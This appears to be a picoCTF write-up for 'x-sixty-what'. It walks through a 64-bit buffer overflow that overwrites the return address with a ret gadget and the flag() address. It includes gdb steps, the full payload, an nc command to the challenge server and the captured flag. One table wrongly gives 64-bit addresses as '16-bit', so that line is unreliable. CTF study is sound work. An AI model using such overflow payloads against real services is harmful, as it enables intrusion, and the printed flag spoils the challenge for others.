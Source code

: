 ![Task desc](../assets/images/x-sixty-what_image_1.png)



First, we need to determine the offset, i.e., the distance from the beginning of the buffer at which the return address of the function begins to be overwritten.   

From `vuln.c` source code we see that the buffer into which user input is written occupies 64 bytes. The size of the "padding" is probably not much larger than 64.


![image_2](../assets/images/x-sixty-what_image_2.png)


Let's find out manually. First, we create a pattern of 100 characters to fill the buffer. We set a breakpoint to execute the program step by step (`main` is ok), and `run`:

![image_3](../assets/images/x-sixty-what_image_3.png)


Enter `ni` (next instruction) multiple times, to get to the part of the program where it asks for input: 

![image_4](../assets/images/x-sixty-what_image_4.png)


`← $rsp`, these are pattern symbols that have gone beyond the buffer limits, 28 out of 100:


![image_5](../assets/images/x-sixty-what_image_5.png)


So we will work with an offset of 72 bytes



![image_6](../assets/images/x-sixty-what_image_6.png)



```
bit	       Address space
64-bit --> 16-bit address 
32-bit -->  8-bit address 
```


![image_7](../assets/images/x-sixty-what_image_7.png)



```gdb
disass flag --> 0x0000000000401236 <+0>: endbr64 --> p64(0x0000000000401236) --> b'6\x12@\x00\x00\x00\x00\x00'

I created flag.txt and use the following payload:
gef➤ r <<< $(echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA6\x12@\x00\x00\x00\x00\x00")
```

In this way I test whether the payload works on the local side.


Next, we take the return address of main (`ret main`):

```gdb
disass main --> 0x000000000040133e <+108>:   ret --> p64(0x000000000040133e) --> b'>\x13@\x00\x00\x00\x00\x00'
```

![image_8](../assets/images/x-sixty-what_image_8.png)


> [!IMPORTANT]
> We form the payload in the following sequence:
>
> <table>
>  <tr>
>   <td>padding 'A'*72
>   </td>
>   <td>ret main() 
>   </td>
>   <td>endbr64 flag()
>   </td>
>  </tr>
>  <tr>
>   <td><code>AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA</code>
>   </td>
>   <td><code>>\x13@\x00\x00\x00\x00\x00</code>
> <p>
> <code>rewrite <strong> saved return address (RIP)</strong></code>
>   </td>
>   <td><code>6\x12@\x00\x00\x00\x00\x00</code>
>   </td>
>  </tr>
> </table>


> [!WARNING]
> **!! PAY ATTENTION**, that first comes the return address `ret` for `main()`, and THEN the address directly `flag()`


---

### Why payload is in this order?

This payload sequence uses a basic principle called "ROP chain".

Our order:

```
'A' * 72 + address ret_main + address flag()
```

1. Start `vuln()`:
	- We execute `vuln()`, that has `char buf[BUFFSIZE]` 64 bytes long. 
	- we explored that from the beginning of `buf` to return address are 72 bytes to fill the buffer and overwrite `rbp` and start overwrite return address
2. After exiting vuln():
	- compiler looks on return address (`ret`) on stack, which we overwrote. 
	- The program takes the first address after the buffer (ret_main) and jumps to it.
	- ret_main executes `ret`, which **retrieves the next address from the stack** (`flag()`) and jumps to it.
	- `flag()` executes and prints flag.
	- !! **After** `flag()`, the program **also executes** `ret`, which attempts to take the next address from the stack.

> [!IMPORTANT]
> Key moments:
> After `flag()`, there is no correct address in the stack (because we did not substitute them), so a `segfault` occurs. But `flag() had already printed `picoCTF{...` to stdout, so we don't care about pushing the next `ret` address on stack!
>
> So `ret main` is needed not to avoid segfault after flag(), but to correctly redirect execution to flag()!

---

### Why doesn't the exploit work without `ret main`?

If you simply substitute flag() for RET:

```
'A' * 72 + address flag()
```

... then after exiting `vuln()`, the program will immediately jump to `flag()`.

However, due to the stack alignment in 64-bit systems, or because `flag()` expects a certain stack state, it may not execute correctly (for example, it may not print the flag or may crash earlier).

---

### How to avoid `segfault`?

```
'A' * 72 + address ret_main + address flag() + address exit()
```

We need to call `exit()` function. Otherwise, processor will call `ret` again and will look further on stack for another 8 bytes

---

### Visualization

```
[ 'A'*72 ]          ← buffer + RBP
[ address ret_main ]  ← RET (overwritten address)
[ address flag() ]      ← the address retrieved by ret_main
[ garbage... ]        ← there will be a segfault here, but after printing the flag
```

![algorithm_schema](../assets/images/x-sixty-what_schema.png)

---

### Conclusion

* `ret main` is needed for correct redirection to `flag()` (stack alignment, register state).
* Segfault after `flag()` is normal because the flag has already been obtained.
* If you want to avoid segfault, add the address of `exit()` after `flag()`.

<br/>

We form a payload for use on the server side:


```shell
echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA>\x13@\x00\x00\x00\x00\x006\x12@\x00\x00\x00\x00\x00" | nc saturn.picoctf.net 54403
```


![image_9](../assets/images/x-sixty-what_image_9.png)


`picoCTF{b1663r_15_b3773r_47a99eda}`
